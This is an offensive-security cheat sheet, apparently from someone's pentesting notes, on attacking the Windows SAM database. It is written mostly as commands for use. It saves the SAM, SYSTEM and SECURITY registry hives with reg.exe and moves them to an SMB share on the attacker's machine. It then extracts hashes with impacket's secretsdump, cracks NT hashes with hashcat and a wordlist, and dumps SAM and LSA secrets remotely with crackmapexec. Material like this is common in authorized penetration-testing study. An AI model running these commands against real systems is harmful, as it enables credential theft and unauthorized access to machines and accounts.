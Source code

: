 


# Attacking SAM

## Dumping SAM Locally

### 1. Copying SAM Registry Hives

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. 

|Registry Hive|Description|
|---|---|
|`hklm\sam`|Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
|`hklm\system`|Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.|
|`hklm\security`|Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.|


Launching CMD as an admin will allow us to run reg.exe to save copies of the registry hives.

```cmd-session
reg.exe save hklm\sam C:\sam.sav

reg.exe save hklm\system C:\system.save

reg.exe save hklm\security C:\security.save
```

Transfer the registry hives to our attacker machine, for instance, with [smbserver.py from impacket](smbserver.md).

```bash
# From the attacker machine (our kali) all we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the direct
#########################################
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

# From the victim's machine (windows)
#########################################
move sam.save \\$ipAttacker\CompData
move system.save \\$ipAttacker\CompData
move security.save \\$ipAttacker\CompData
```


### 2. Dumping Hashes with Impacket's secretsdump.py

```bash
locate secretsdump 
```

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Secretsdump dumps the local SAM hashes and would've 
also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\security. 

The first step secretsdump executes is targeting the system bootkey before proceeding to dump the LOCAL SAM hashes. It cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database.

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
(uid:rid:lmhash:nthash)
```

Most modern Windows operating systems store the password as an NT hash. Operating systems older than Windows Vista & Windows Server 2008 store passwords as an LM hash, so we may only benefit from cracking those if our target is an older Windows OS. Knowing this, we can copy the NT hashes associated with each user account into a text file and start cracking passwords.


### 3. Cracking Hashes with Hashcat


```bash
# Adding nthashes to a .txt File
# Copy paste them in hashestocrack.txt

# Hashcat them
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
# -m 1000: select module for NT hashes
```



## Dumping SAM Remotely

### With CrackMapExec

With access to credentials with local admin privileges, it is also possible for us to target LSA Secrets over the network. 

[Cheat sheet of CrackMapExec](crackmapexec.md).

```bash
crackmapexec smb $ip --local-auth -u <username> -p <password> --sam

crackmapexec smb $ip --local-auth -u <username> -p <password> --lsa

```